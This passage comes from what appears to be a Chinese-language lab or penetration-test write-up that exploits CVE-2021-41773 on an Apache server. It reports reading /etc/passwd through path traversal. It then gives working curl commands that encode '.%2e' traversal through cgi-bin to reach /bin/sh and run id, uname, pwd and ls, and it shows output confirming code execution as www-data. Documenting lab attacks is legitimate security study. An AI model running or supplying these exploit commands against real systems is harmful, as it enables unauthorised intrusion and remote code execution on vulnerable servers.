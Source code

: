    - **状态**: 🎉 完全成功 - 读取到完整的 `/etc/passwd` 文件
   - **编码方式**: 仅使用基础的单层URL编码 `%2e%2e`（不需要双重编码）
   - **技术意义**: 证明CVE-2021-41773不仅限于CGI路径，还影响Apache的静态资源映射
2. 🚫 **`/manual/` 路径被阻止**

   - **状态**: 403 Forbidden
   - **原因**: Manual文档路径可能有特殊的访问控制配置
   - **安全策略**: 表明某些路径映射有额外的安全限制
3. 🚫 **直接根路径被阻止**

   - **状态**: 403 Forbidden
   - **原因**: 根路径的路径遍历被Apache的基础安全机制阻止

##### 3.3 远程代码执行(RCE)攻击

###### 3.3.1 CGI路径的RCE攻击尝试

```bash
# 通过CGI路径执行shell命令
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; id"
```

**RCE攻击结果**:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

![1748164624555](image/第一层两靶标攻击与利用检测/1748164624555.png)
**🎉 RCE攻击成功！**

- **权限获取**: 成功以 `www-data`用户身份执行命令
- **攻击方式**: 通过CGI路径结合路径遍历，直接调用系统shell
- **编码技术**: 使用混合编码 `.%2e`绕过路径限制

###### 3.3.2 系统信息收集

```bash
# 获取系统信息
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; uname -a"

# 查看当前目录
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; pwd"

# 列出根目录内容
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; ls -la /"
```
